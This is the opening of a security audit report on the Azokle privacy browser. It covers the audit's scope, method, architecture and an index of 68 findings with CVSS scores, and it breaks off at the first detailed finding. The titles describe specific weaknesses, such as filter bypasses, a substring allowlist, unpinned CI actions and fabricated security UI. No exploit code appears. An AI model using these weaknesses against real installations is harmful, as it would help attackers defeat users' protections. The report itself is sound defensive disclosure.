



<a id="top"></a>
# Azokle Browser — Deep Security Audit Report

**Target** &nbsp;·&nbsp; `azoklesoftware/azokle-browser`, `development` branch @ commit `cffca87`  
**Scope** &nbsp;·&nbsp; ~51,000 first-party lines reviewed line-by-line (Rust core crates, vendored adblock engine, iOS Swift app, TypeScript UI + WebExtension, C++ engine shell, bindings, protocols, build & CI)  
**Method** &nbsp;·&nbsp; Full sweep, CVSS v3.1 base scoring, CWE mapping, code-level evidence with exploit scenario and remediation per finding  
**Findings** &nbsp;·&nbsp; 68 documented — 2 HIGH, 25 MEDIUM, 37 LOW, 4 INFO  
**Edition** &nbsp;·&nbsp; October 2026 · Independent Security Audit · Markdown edition (companion to the 79-page PDF, same finding registry)

> **Reading guide.** Chapters 5–12 present every finding in full detail, grouped by vulnerability class. Each finding carries a stable identifier (`AZK-F-001` … `AZK-F-068`) for cross-referencing, a CVSS v3.1 vector, a CWE mapping, and a confidence label reflecting verification depth. Severity thresholds: HIGH ≥ 7.0, MEDIUM 4.0–6.9, LOW 0.1–3.9, INFO = design/documentation observation.

---

## Table of Contents

- [Chapter 1 — 1. Executive Summary](#ch-1)
- [Chapter 2 — 2. Scope, Methodology and Coverage](#ch-2)
- [Chapter 3 — 3. Architecture and Trust Boundaries](#ch-3)
- [Chapter 4 — 4. Findings Overview and Severity Metrics](#ch-4)
- [Chapter 5 — 5. Injection and Cross-Site Scripting (XSS)](#ch-5)
- [Chapter 6 — 6. Input Validation and Canonicalization](#ch-6)
- [Chapter 7 — 7. Memory Safety and Denial of Service](#ch-7)
- [Chapter 8 — 8. Network Security and Privacy Leakage](#ch-8)
- [Chapter 9 — 9. Access Control, IPC and Origin Trust](#ch-9)
- [Chapter 10 — 10. Cryptography and Secrets](#ch-10)
- [Chapter 11 — 11. Supply Chain, Build and CI/CD](#ch-11)
- [Chapter 12 — 12. Security-Claim Versus Implementation Gaps](#ch-12)
- [Chapter 13 — 13. Prior-Fix Verification (36-Finding Follow-Up)](#ch-13)
- [Chapter 14 — 14. Remediation Roadmap](#ch-14)
- [Chapter 15 — 15. Appendix A: Per-File Coverage Matrix (Condensed)](#ch-15)

**Detailed finding index (HIGH & MEDIUM):**

- [`AZK-F-001`](#azk-f-001) — Filter-list CSS injection into every page: cosmetic CSS validation feature disabled in browser build **[HIGH 7.6]**
- [`AZK-F-002`](#azk-f-002) — Stale duplicate UI package (components/) reintroduces the exact XSS sinks the 36-finding fix removed **[MEDIUM 6.2]**
- [`AZK-F-005`](#azk-f-005) — Fork-introduced URL parser retains tab/LF/CR characters, causing host confusion and filter bypass **[MEDIUM 4.8]**
- [`AZK-F-006`](#azk-f-006) — Host never lowercased for special schemes: uppercase-hostname URLs bypass all hostname-anchored filters **[MEDIUM 4.8]**
- [`AZK-F-007`](#azk-f-007) — Search engine URL builder performs no percent-encoding: omnibox input injects query parameters, fragments and delimiters **[MEDIUM 5.0]**
- [`AZK-F-011`](#azk-f-011) — Filter options $method and $to are silently inert: rules authored with them never match any request **[MEDIUM 5.3]**
- [`AZK-F-014`](#azk-f-014) — Flatbuffer key/value length mismatch enables out-of-bounds read in filter map views **[MEDIUM 5.5]**
- [`AZK-F-015`](#azk-f-015) — Hash-index probe loop can spin forever on a full table and underflows on zero-capacity input **[MEDIUM 4.7]**
- [`AZK-F-016`](#azk-f-016) — network_rules vector indexed by fixed ids 0-7 without a length check **[MEDIUM 5.5]**
- [`AZK-F-017`](#azk-f-017) — Regex manager slices pattern[1..len-1] trusting flatbuffer mask bits: slice panic on crafted engine cache **[MEDIUM 4.7]**
- [`AZK-F-020`](#azk-f-020) — Workspace panic = "abort" silently disables every FFI catch_unwind barrier the codebase documents as its safety contract **[MEDIUM 5.9]**
- [`AZK-F-021`](#azk-f-021) — 74 of 87 JNI exports lack the safe_jni! panic barrier, including web-content-reachable paths **[MEDIUM 5.9]**
- [`AZK-F-024`](#azk-f-024) — Core HTTP client is plaintext-only and rejects HTTPS: the encrypted search API can never function, and any future HTTP fallback ships cleartext queries **[MEDIUM 4.0]**
- [`AZK-F-025`](#azk-f-025) — DNS-over-HTTPS providers are decorative: resolution uses the OS resolver, with a hardcoded IP pin for azokle endpoints **[MEDIUM 4.8]**
- [`AZK-F-027`](#azk-f-027) — Omnibox autosuggest sends every keystroke to the clearnet, including in Tor and private tabs **[MEDIUM 4.3]**
- [`AZK-F-028`](#azk-f-028) — New-tab speed dial fetches favicons from google.com/s2 on every home render **[MEDIUM 4.3]**
- [`AZK-F-029`](#azk-f-029) — New Tab Page unconditionally fetches an Unsplash wallpaper in a 'zero telemetry' browser **[MEDIUM 5.3]**
- [`AZK-F-033`](#azk-f-033) — Extension challenge/allowlist uses substring matching: any host containing 'turnstile' or path containing /cdn-cgi/ is exempt from all blocking **[MEDIUM 5.3]**
- [`AZK-F-035`](#azk-f-035) — AUBP protocol envelope validation is weaker than its own schema: spoofable source, no message-id format, no freshness or replay defense **[MEDIUM 4.8]**
- [`AZK-F-045`](#azk-f-045) — Vault master-key recovery path deletes and recreates the keychain key on any transient read error, destroying all previously encrypted data **[MEDIUM 6.6]**
- [`AZK-F-046`](#azk-f-046) — Certificate inspector displays fabricated TLS data for every HTTPS site **[MEDIUM 6.5]**
- [`AZK-F-052`](#azk-f-052) — Tor verification fabricates circuit metadata and never authenticates to the control port; UI ships a fake Tor cockpit **[MEDIUM 4.0]**
- [`AZK-F-055`](#azk-f-055) — All first-party CI workflows pin actions by mutable tag/branch - including @master - in workflows that carry Android signing secrets **[HIGH 7.0]**
- [`AZK-F-056`](#azk-f-056) — Signing workflows run with contents:write, persisted checkout credentials, and keystore passwords exported into the build environment **[MEDIUM 6.0]**
- [`AZK-F-057`](#azk-f-057) — Committed gradle-wrapper.jar is executed by every CI job without wrapper JAR validation **[MEDIUM 6.0]**
- [`AZK-F-058`](#azk-f-058) — Security-scan pipeline is a no-op: SARIF is never uploaded or enforced and the 285-crate workspace is never scanned **[MEDIUM 4.3]**
- [`AZK-F-068`](#azk-f-068) — Fingerprint shield patches only the isolated world: page-realm values are untouched while the UI claims 'Canvas &amp; Audio Spoofed' **[MEDIUM 5.3]**

[Back to top](#top)

---

<a id="ch-1"></a>
## 1. Executive Summary

This report presents a full line-by-line security audit of the azokle-browser repository (development branch, commit cffca87), a privacy-focused, Rust-core browser with an iOS SwiftUI client, a TypeScript chrome UI, an Android/Kotlin binding layer, a C++ desktop shell and a vendored fork of Brave's adblock-rust engine. The audit covered approximately 36,000 lines of first-party code across Rust, Swift, TypeScript/JavaScript, C++ and Python, plus 15,000 lines of vendored engine internals, all build and CI configuration, IPC protocol artifacts and dependency manifests. The engagement was explicitly a residual-risk review: the project's own history records six remediation rounds culminating in a commit claiming 'resolve all 36 independent security audit findings', so this audit hunted for what remains - including incomplete fixes and regressions introduced by the remediations themselves.

| **68** findings documented | **2** HIGH severity | **25** MEDIUM severity | **~51k** lines reviewed | **6** prior fixes incomplete |
|---|---|---|---|---|

The engineering baseline is genuinely strong for an independent browser project: memory-safe Rust core, Argon2id + ChaCha20-Poly1305 vault crypto with AAD binding, a fail-closed Tor proxy design that survived verification, real DNS-rebinding re-validation, and CRLF/header-injection defenses that tests actually exercise. No remote code execution, no SQL injection, no hardcoded secrets, and no known-vulnerable dependency versions were found anywhere in the tree. What remains is concentrated in four themes: (1) a fork-introduced URL parser with two canonicalization regressions that silently bypass the entire filter engine; (2) a crafted-engine-cache (.dat) attack class reaching out-of-bounds reads, infinite probe loops and panics - amplified workspace-wide by panic="abort" nullifying every documented FFI barrier; (3) a systemic honesty gap in which shipped security UI (certificate inspector, Tor cockpit, per-site shields, fingerprint protection, DoH) displays protection the code does not implement; and (4) supply-chain fragility around unpinned CI actions in secrets-bearing workflows.



*Figure 1: Findings by severity (CVSS v3.1 bands; INFO = design/documentation).*

Two findings rate HIGH (7.0-7.6): filter-list CSS injection via a disabled validation feature, and mutable CI action pins in workflows carrying Android signing secrets. Twenty-five findings rate MEDIUM, thirty-seven LOW and four INFO. Six of the previously remediated findings are verified incompletely fixed or regressed; the remainder of the 36 were confirmed present and effective in HEAD.

Four parallel deep-review tracks (iOS Swift; TypeScript chrome + extension; vendored adblock engine + privacy crates; build/CI/bindings/protocols) were combined with a primary review of the crypto, networking, Tor, storage, protocol, services and desktop-engine sources, followed by source-level verification of every HIGH and MEDIUM finding before inclusion. Severity uses CVSS v3.1 base metrics with CWE mapping; confidence labels (CONFIRMED / LIKELY / POSSIBLE) distinguish exploit-verified issues from design-level risks.

> **Headline recommendation.** Treat the two HIGH findings as release blockers, close the six incomplete prior fixes, and adopt one deserialize-time invariant gate in the adblock engine — a single load-time check eliminates six of the ten memory-safety findings at once.

<a id="ch-2"></a>
## 2. Scope, Methodology and Coverage

The audit followed a dual-loop methodology. The outer loop partitioned the codebase into five trust zones - web-content-facing surfaces (renderers, content scripts, filter engine), the native/chrome boundary (FFI, IPC, extension bridge), local persistence (settings, caches, engine snapshots), the network stack, and the build/supply chain - and assigned each zone a reviewer with line-by-line reading instructions. The inner loop was per-file: read every line, classify each construct as trusted-data transform, trust-boundary crossing, or internal logic, and only then hunt for the classic failure modes appropriate to that classification. Files containing hostile-input parsers received additional invariant analysis: every unwrap/expect/index/slice was traced to its reachability from public entry points.

Coverage targets were absolute: every first-party Rust crate, every Swift file under apps/ios, every TypeScript file under ui/src and components/, the full extension, all CI workflows, bindings, protocol artifacts and packaging scripts were read in full. The vendored adblock-rust fork was reviewed with priority on its fork-specific deltas (the hand-rolled URL parser and custom flatbuffer containers) and on every unsafe block. Automated assists were used only to enumerate surfaces (grep for sinks, unwrap census, lockfile auditing) - never as the basis of a finding; every reported issue carries a human-verified code citation. In total approximately 51,000 lines were read across 348 files; the appendix summarizes the per-file verdicts.

Findings are scored with CVSS v3.1 base metrics under the threat model most realistic for each component: remote web content is the default attacker for anything reachable from a page (AV:N, UI:R where user interaction applies); a local malicious process or tampered cache file yields AV:L; CI findings are scored from the maintainer/repo perspective (PR:L attacker with AC:H). CWE identifiers are mapped to the dominant weakness class. Confidence labels: CONFIRMED means the trigger was traced end-to-end in source (and where feasible executed); LIKELY means the mechanism is verified and reachability depends on caller behavior; POSSIBLE means the risk is design-level and contingent on future integration.

Three limitations bound this report. First, dynamic verification was limited to source-level trace analysis and targeted test construction; no instrumented device or emulator runs were performed, so some iOS-runtime interactions (e.g. exact keychain failure sequences) rest on documented platform behavior. Second, the upstream comparison for the vendored adblock fork was performed against the fork's own embedded copyright headers and comment history rather than a byte-diff against a specific upstream release; fork-specific versus inherited issues are labeled accordingly where distinguishable. Third, the Android app source under apps/android was outside scope (its CI and wrapper were audited; its Java/Kotlin code was not), as were the runtime behaviors of the GeckoView embedding layer itself.

| Track | Scope | Lines | Findings |
|---|---|---:|---:|
| iOS application | apps/ios (Swift), Fastfile, project config | ~11,900 | 16 |
| Chrome UI + extension | ui/src, components/, extensions/azokle-shield | ~14,200 | 10 |
| Adblock engine core | adblock-rust: parser, flatbuffers, unsafe | ~15,000 | 13 |
| Privacy + security crates | crates/security, privacy/{adblock,tracker-block} | ~10,000 | 12 |
| Build, CI, bindings, protocols | .github, bindings, protocols, tools, packaging | ~11,500 | 16 |
| Primary review (main track) | crypto, networking, tor, storage, protocol, core, services, engine C++ | ~7,300 | 12+ |

*Table 1: Review tracks and raw finding counts before consolidation and de-duplication into the 68 final findings.*

<a id="ch-3"></a>
## 3. Architecture and Trust Boundaries

Azokle Browser is a multi-process, multi-language architecture bound together by three trust boundaries that recur throughout this report: the **web-content boundary** (where hostile page data enters — WKWebView delegates, content scripts, the filter engine's request path), the **chrome/native boundary** (FFI exports, the AUBP IPC envelope, the extension's native messaging), and the **supply-chain boundary** (filter lists, engine snapshot caches, CI actions, dependencies). Every finding in chapters 5 through 12 is located on one of these boundaries or on the data flow between them. The table below maps the components, their role, and where hostile data first touches them.

| Component | Location | Role and trust position |
|---|---|---|
| Rust core crates | `crates/{common,core,crypto,networking,protocol,security,services/*,storage,tor,privacy/*}` | Domain logic, vault crypto, SSRF-guarded HTTP, DNS, Tor control, adblock orchestration, IPC protocol. Exposed to hosts via FFI. |
| Vendored adblock engine | `crates/privacy/adblock-rust (Brave adblock-rust 0.13.3 fork)` | Filter parsing/matching, custom URL parser, flatbuffer containers, .dat serialization. Processes hostile URLs and list data. |
| iOS client | `apps/ios/Azokle Browser (SwiftUI + WKWebView)` | Navigation security, adblock bridging, vault UI, Tor UI. Web-content trust boundary at WKWebView delegates. |
| Chrome UI | `ui/src (TypeScript/React in WebView) + components/` | Omnibox, tab strip, shields UI, NTP. Trust boundary at bridge.ts and postMessage handlers. |
| Extension: azokle-shield | `extensions/azokle-shield (WebExtension + native messaging)` | Network blocking, scriptlet/cosmetic injection, surrogates. Trust boundary at runtime message hub and native messaging. |
| Desktop shell | `engine/desktop (C++), bindings/c (FFI)` | Tab lifecycle, scheme allowlist, engine delegation. Trust boundary at the C ABI. |
| Android bridge | `bindings/kotlin (JNI), bindings/uniffi` | 87 JNI exports over the core engine; panic-barrier policy per export. |
| Build &amp; CI | `Makefile, CMake, .github/workflows/*, packaging, tools/` | Release signing, F-Droid publication, filter-pack updates, protocol codegen. |

*Table 2: Component map of the audited tree (development branch, commit cffca87).*

Two structural properties shape the findings. First, the vendored adblock engine sits directly on the web-content boundary and was forked in a way that replaced upstream's battle-tested URL parser and container internals with custom code — the exact layer where canonicalization and memory-safety bugs concentrate (chapters 6 and 7). Second, the product's privileged UI (certificate inspector, Tor cockpit, shields panel) was written against a security specification rather than against the implemented engine, which is the root of the security-claim gap documented in chapter 12.

<a id="ch-4"></a>
## 4. Findings Overview and Severity Metrics

This chapter indexes all 68 consolidated findings and presents the aggregate metrics. Each finding carries a stable identifier (AZK-F-001 through AZK-F-068) used for cross-referencing, a CVSS v3.1 base score computed under the threat model described in chapter 2, a CWE mapping, and a confidence label reflecting verification depth. Chapters 5 through 12 then present every finding in full detail with code evidence, an exploit scenario and a concrete remediation, grouped by vulnerability class.



*Figure 2: Findings per vulnerability class; darker overlay marks HIGH + MEDIUM.*



*Figure 3: CVSS base-score distribution and verification confidence split.*

| ID | Title | Severity | CVSS | Confidence |
|---|---|---|---:|---|
| [`AZK-F-001`](#azk-f-001) | Filter-list CSS injection into every page: cosmetic CSS validation feature disabled in browser build | **HIGH** | 7.6 | CONFIRMED |
| [`AZK-F-002`](#azk-f-002) | Stale duplicate UI package (components/) reintroduces the exact XSS sinks the 36-finding fix removed | **MEDIUM** | 6.2 | CONFIRMED |
| [`AZK-F-003`](#azk-f-003) | ScriptletEngine stores and returns arbitrary JavaScript keyed by unvalidated domain strings | **LOW** | 3.9 | POSSIBLE |
| [`AZK-F-004`](#azk-f-004) | Template-style scriptlet arguments substituted without quote-context escaping | **LOW** | 3.9 | POSSIBLE |
| [`AZK-F-005`](#azk-f-005) | Fork-introduced URL parser retains tab/LF/CR characters, causing host confusion and filter bypass | **MEDIUM** | 4.8 | CONFIRMED |
| [`AZK-F-006`](#azk-f-006) | Host never lowercased for special schemes: uppercase-hostname URLs bypass all hostname-anchored filters | **MEDIUM** | 4.8 | CONFIRMED |
| [`AZK-F-007`](#azk-f-007) | Search engine URL builder performs no percent-encoding: omnibox input injects query parameters, fragments and delimiters | **MEDIUM** | 5.0 | CONFIRMED |
| [`AZK-F-008`](#azk-f-008) | Safe Browsing blocklist bypass via trailing-dot FQDN and IDN homographs | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-009`](#azk-f-009) | Query-parameter stripper misses fragment tracking, over-matches hosts by substring, and re-serializes every URL | **LOW** | 4.1 | CONFIRMED |
| [`AZK-F-010`](#azk-f-010) | Tracker database ingests unvalidated list lines: one 'com' line flags every .com host | **LOW** | 4.2 | CONFIRMED |
| [`AZK-F-011`](#azk-f-011) | Filter options $method and $to are silently inert: rules authored with them never match any request | **MEDIUM** | 5.3 | CONFIRMED |
| [`AZK-F-012`](#azk-f-012) | URL parser keeps default ports and accepts WHATWG-invalid hosts, drifting from browser canonicalization | **LOW** | 3.1 | LIKELY |
| [`AZK-F-013`](#azk-f-013) | Sovereign whitelist inconsistencies: apex challenge domains missed; Rust core diverges from extension list | **INFO** | 2.0 | CONFIRMED |
| [`AZK-F-014`](#azk-f-014) | Flatbuffer key/value length mismatch enables out-of-bounds read in filter map views | **MEDIUM** | 5.5 | CONFIRMED |
| [`AZK-F-015`](#azk-f-015) | Hash-index probe loop can spin forever on a full table and underflows on zero-capacity input | **MEDIUM** | 4.7 | CONFIRMED |
| [`AZK-F-016`](#azk-f-016) | network_rules vector indexed by fixed ids 0-7 without a length check | **MEDIUM** | 5.5 | CONFIRMED |
| [`AZK-F-017`](#azk-f-017) | Regex manager slices pattern[1..len-1] trusting flatbuffer mask bits: slice panic on crafted engine cache | **MEDIUM** | 4.7 | CONFIRMED |
| [`AZK-F-018`](#azk-f-018) | Serialized engine cache (.dat) integrity check is a non-keyed seahash: trivially recomputed by an attacker | **LOW** | 4.4 | CONFIRMED |
| [`AZK-F-019`](#azk-f-019) | unwrap()/unreachable!() panic sinks reachable from deserialized engine data (scriptlet args, hostname-anchored filters) | **LOW** | 4.4 | CONFIRMED |
| [`AZK-F-020`](#azk-f-020) | Workspace panic = "abort" silently disables every FFI catch_unwind barrier the codebase documents as its safety contract | **MEDIUM** | 5.9 | CONFIRMED |
| [`AZK-F-021`](#azk-f-021) | 74 of 87 JNI exports lack the safe_jni! panic barrier, including web-content-reachable paths | **MEDIUM** | 5.9 | LIKELY |
| [`AZK-F-022`](#azk-f-022) | fb_vector_to_slice alignment/length asserts fire after verification on hostile engine caches | **LOW** | 3.1 | POSSIBLE |
| [`AZK-F-023`](#azk-f-023) | Unbounded filter/resource accumulation with full engine rebuild on every load call | **LOW** | 3.3 | CONFIRMED |
| [`AZK-F-024`](#azk-f-024) | Core HTTP client is plaintext-only and rejects HTTPS: the encrypted search API can never function, and any future HTTP fallback ships cleartext queries | **MEDIUM** | 4.0 | CONFIRMED |
| [`AZK-F-025`](#azk-f-025) | DNS-over-HTTPS providers are decorative: resolution uses the OS resolver, with a hardcoded IP pin for azokle endpoints | **MEDIUM** | 4.8 | CONFIRMED |
| [`AZK-F-026`](#azk-f-026) | HTTP response status parsing fails open to 200 on malformed status lines | **LOW** | 3.5 | CONFIRMED |
| [`AZK-F-027`](#azk-f-027) | Omnibox autosuggest sends every keystroke to the clearnet, including in Tor and private tabs | **MEDIUM** | 4.3 | CONFIRMED |
| [`AZK-F-028`](#azk-f-028) | New-tab speed dial fetches favicons from google.com/s2 on every home render | **MEDIUM** | 4.3 | CONFIRMED |
| [`AZK-F-029`](#azk-f-029) | New Tab Page unconditionally fetches an Unsplash wallpaper in a 'zero telemetry' browser | **MEDIUM** | 5.3 | CONFIRMED |
| [`AZK-F-030`](#azk-f-030) | Reader mode re-fetches the page through URLSession outside the WebView's session isolation | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-031`](#azk-f-031) | Primary adblock engine built with debug=true: raw hostile rule text retained in memory and shipped across IPC | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-032`](#azk-f-032) | Missing source origin disables every $domain= rule; sovereign pre-allowlist is unfilterable by design | **LOW** | 3.5 | CONFIRMED |
| [`AZK-F-033`](#azk-f-033) | Extension challenge/allowlist uses substring matching: any host containing 'turnstile' or path containing /cdn-cgi/ is exempt from all blocking | **MEDIUM** | 5.3 | CONFIRMED |
| [`AZK-F-034`](#azk-f-034) | Deterministic extension fingerprint: fixed DOM artifacts and web_accessible_resources wildcards expose the blocker to anti-adblock gates | **LOW** | 3.5 | CONFIRMED |
| [`AZK-F-035`](#azk-f-035) | AUBP protocol envelope validation is weaker than its own schema: spoofable source, no message-id format, no freshness or replay defense | **MEDIUM** | 4.8 | CONFIRMED |
| [`AZK-F-036`](#azk-f-036) | IPC framing, size limits and heartbeats exist only in the specification: dispatch entry points take unbounded raw strings | **LOW** | 2.5 | CONFIRMED |
| [`AZK-F-037`](#azk-f-037) | Extension message hub trusts caller-supplied domains and forwards raw page-derived objects to the native host | **LOW** | 3.1 | CONFIRMED |
| [`AZK-F-038`](#azk-f-038) | Download destination_path accepted verbatim from callers; import_json restores unsanitized paths | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-039`](#azk-f-039) | Permission audit history query uses substring matching, leaking audit records across origins | **LOW** | 2.5 | CONFIRMED |
| [`AZK-F-040`](#azk-f-040) | Settings import_json accepts arbitrary configuration including a custom DoH endpoint with no scheme or domain validation | **LOW** | 3.0 | CONFIRMED |
| [`AZK-F-041`](#azk-f-041) | Desktop OpenTab path bypasses the Navigate scheme allowlist (AZK-LOW-12 fix incomplete) | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-042`](#azk-f-042) | New-tab page rehydrates shield metrics from localStorage without shape validation: persistent crash and spoofed statistics | **LOW** | 3.6 | CONFIRMED |
| [`AZK-F-043`](#azk-f-043) | Per-site shield toggle is a fiction: the WebView never consults siteShieldOverrides | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-044`](#azk-f-044) | Shield-off state still injects the WebRTC-stripping defuser script (page-detectable browser modification) | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-045`](#azk-f-045) | Vault master-key recovery path deletes and recreates the keychain key on any transient read error, destroying all previously encrypted data | **MEDIUM** | 6.6 | CONFIRMED |
| [`AZK-F-046`](#azk-f-046) | Certificate inspector displays fabricated TLS data for every HTTPS site | **MEDIUM** | 6.5 | CONFIRMED |
| [`AZK-F-047`](#azk-f-047) | SovereignPasskey: signature counter overflows silently and rp_id is accepted unvalidated | **LOW** | 2.0 | CONFIRMED |
| [`AZK-F-048`](#azk-f-048) | Password generator returns a truncated password on RNG failure and copies it to the general pasteboard | **LOW** | 2.7 | CONFIRMED |
| [`AZK-F-049`](#azk-f-049) | Public C header declares azokle_passkey_sign but no implementation exists (API contract drift at the trust boundary) | **LOW** | 2.5 | CONFIRMED |
| [`AZK-F-050`](#azk-f-050) | FFI entry points accept unvalidated raw pointer/length pairs; byte_buffer_free reconstructs a Box from caller data | **LOW** | 2.6 | POSSIBLE |
| [`AZK-F-051`](#azk-f-051) | Sync protocol defines transport envelopes with no authentication, freshness or sender binding (latent) | **LOW** | 3.1 | CONFIRMED |
| [`AZK-F-052`](#azk-f-052) | Tor verification fabricates circuit metadata and never authenticates to the control port; UI ships a fake Tor cockpit | **MEDIUM** | 4.0 | CONFIRMED |
| [`AZK-F-053`](#azk-f-053) | ScriptletSignatureValidator is orphaned: the AZK-MED-09 remediation shipped the validator but never wired it | **INFO** | 2.0 | CONFIRMED |
| [`AZK-F-054`](#azk-f-054) | Tor control port derived as socks_port + 1 with u16 wraparound | **INFO** | 2.0 | CONFIRMED |
| [`AZK-F-055`](#azk-f-055) | All first-party CI workflows pin actions by mutable tag/branch - including @master - in workflows that carry Android signing secrets | **HIGH** | 7.0 | CONFIRMED |
| [`AZK-F-056`](#azk-f-056) | Signing workflows run with contents:write, persisted checkout credentials, and keystore passwords exported into the build environment | **MEDIUM** | 6.0 | CONFIRMED |
| [`AZK-F-057`](#azk-f-057) | Committed gradle-wrapper.jar is executed by every CI job without wrapper JAR validation | **MEDIUM** | 6.0 | CONFIRMED |
| [`AZK-F-058`](#azk-f-058) | Security-scan pipeline is a no-op: SARIF is never uploaded or enforced and the 285-crate workspace is never scanned | **MEDIUM** | 4.3 | CONFIRMED |
| [`AZK-F-059`](#azk-f-059) | Filter-pack integrity is self-referential: pins live in the same repo, --allow-unpinned accepts anything, verifier not in CI | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-060`](#azk-f-060) | F-Droid workflow publishes unsigned release APKs when the signing secret is absent, and its proprietary-SDK gate is a word-grep over *.gradle only | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-061`](#azk-f-061) | Vendored adblock-rust fork retains upstream Brave CI/ownership configuration: foreign CODEOWNERS, Renovate preset, self-hosted runner labels, live-list fetch from Brave master | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-062`](#azk-f-062) | Dev-server path containment uses startsWith(ROOT) without a trailing separator: sibling ui* directories are servable | **LOW** | 2.5 | CONFIRMED |
| [`AZK-F-063`](#azk-f-063) | Checked-in Swift/UniFFI bindings are stale: 6 of 11 exported engine methods exposed, no CI regeneration | **LOW** | 2.3 | CONFIRMED |
| [`AZK-F-064`](#azk-f-064) | bun.lock records '@types/bun': 'latest' while package.json pins ^1.3.5 - the AZK-LO-09 pin is not enforced by the lockfile | **LOW** | 1.8 | CONFIRMED |
| [`AZK-F-065`](#azk-f-065) | Chrome UI CSP omits frame-src: the in-chrome viewport iframe can never load remote tabs (hardening regression breaks a feature) | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-066`](#azk-f-066) | Decorative security surfaces: DoH selector, passkey vault, permission prompts, PWA install and downloads UI are not backed by implementation | **LOW** | 3.7 | CONFIRMED |
| [`AZK-F-067`](#azk-f-067) | Documented controls do not match implementation: release checksums, CI matrix, forbid(unsafe_code), version constants | **INFO** | 2.0 | CONFIRMED |
| [`AZK-F-068`](#azk-f-068) | Fingerprint shield patches only the isolated world: page-realm values are untouched while the UI claims 'Canvas &amp; Audio Spoofed' | **MEDIUM** | 5.3 | CONFIRMED |

*Table 3: Consolidated finding index (68 findings). Full details in chapters 5–12.*

<a id="ch-5"></a>
## 5. Injection and Cross-Site Scripting (XSS)

Injection findings let data cross from a lower trust domain into an execution or markup context without neutralization. In a browser the highest-value variants live in exactly two places: the privileged chrome document (where a script gains browser-level powers) and the scriptlet/CSS engine that injects content into every page by design. This class contains the single highest-scored technical finding of the audit — a disabled validation feature that turns the filter-list supply chain into a CSS injection channel — plus a stale duplicate UI package that silently reintroduces sinks the prior remediation removed. This chapter documents 4 findings (1 HIGH, 1 MEDIUM).

<a id="azk-f-001"></a>
### `AZK-F-001` — [HIGH 7.6] Filter-list CSS injection into every page: cosmetic CSS validation feature disabled in browser build

| Field | Value | Field | Value |
|---|---|---|---|
